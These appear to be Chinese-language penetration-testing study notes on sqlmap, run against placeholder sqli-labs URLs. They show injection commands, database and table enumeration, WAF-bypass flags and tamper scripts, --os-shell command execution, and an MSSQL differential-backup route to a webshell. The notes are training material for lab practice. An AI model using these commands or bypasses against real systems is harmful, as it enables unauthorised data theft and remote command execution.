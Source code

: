 ## SQLMap怎么对一个注入点进行注入？

1、get类型注入，直接sqlmap -u url地址
2、post类型，（1）sqlmap -u url --data=post的参数 （2）sqlmap -r 请求数据包的文件地址

```
sqlmap -u "http://xxx/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"
```

3、header注入，sqlmap -r 请求数据包的文件地址
注：在进行post注入或header注入时，可以使用*标记注入点

## MSSQL差异备份怎么getshell

前提条件：
1、MSSQL具体dbo和sa权限（数据库备份权限）
2、支持堆叠查询
3、知道网站绝对路径
实现原理
完整备份后，再次对数据库进行修改，差异备份会记录最后的LSN，将shell写入数据库，备份成asp即可getshell。

## SQL注入Bypass（过waf）思路

1、内联注释绕过
2、填充脏数据绕过
3、更改请求方式，如GET改为POST
4、随机agent绕过
5、fuzz过滤函数，函数替换绕过
6、sqlmap,tamper脚本绕过----上述思路

查看所有数据库
```
sqlmap -u "http://xxx/sqli/Less-1/?id=1" --current-db
```
查看指定数据库（security）所含所有表
```
sqlmap -u "http://xxx/sqli/Less-1/?id=1" -D security --tables
```


## **对于需要登录的网站，我们需要指定其cookie**

##### 我们可以用账号密码登录，然后用`bp`抓取其cookie填入

```
sqlmap -u  "http://xxx/sqli/Less-1/?id=1"   --cookie="抓取的cookie"
```

##### **对于是post提交数据的URL，我们需要指定其data参数**

```
sqlmap -u "http://xxx/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"
```

##### 下面是sqlmap参数绕过waf的一些命令

```
#使用参数进行绕过
--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候
--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时
--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上
--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过
--ignore-proxy    禁止使用系统的代理，直接连接进行注入
--flush-session   清空会话，重构注入
--hex 或者 --no-cast     进行字符码转换
--mobile          对移动端的服务器进行注入
--tor             匿名注入
```

有些时候网站会过滤掉各种字符，可以用tamper来解决（对付某些waf时也有成效）

sqlmap 官方提供了70个绕过脚本（不是53个，我的版本是1.7.3.4），脚本目录在`/usr/share/sqlmap/tamper`中

指定单个脚本进行绕过：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper=space2plus.py 
```

指定多个脚本进行绕过：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper="space2comment.py,space2plus.py"
```

## 探测等级和危险等级(—level —risk)

sqlmap一共有5个探测等级，默认是1。等级越高，说明探测时使用的payload也越多。其中5级的payload最多，会自动破解出cookie、XFF等头部注入。当然，等级越高，探测的时间也越慢。这个参数会影响测试的注入点，GET和POST的数据都会进行测试，HTTP cookie在level为2时就会测试，HTTP User-Agent/Referer头在level为3时就会测试。在不确定哪个参数为注入点时，为了保证准确性，建议设置level为5

危险等级：此参数用于指定风险等级，有1~3共3级。默认风险等级为1,此等级在大多数情况下对测试目标无害。 风险等级2添加了基于时间的注入测试,等级3添加了OR测试

## 执行操作系统命令(—os-shell)

在数据库为MySQL、PostgreSql或者SQL Server时，可以通过sqlmap执行操作系统命令

**当为MySQL数据库时，需满足下面条件：**

- 当前用户为 root

- 知道网站根目录的绝对路径

- ```
  sqlmap -u "http://xxx:7777/Less-1/?id=1" --os-shell
  ```

  
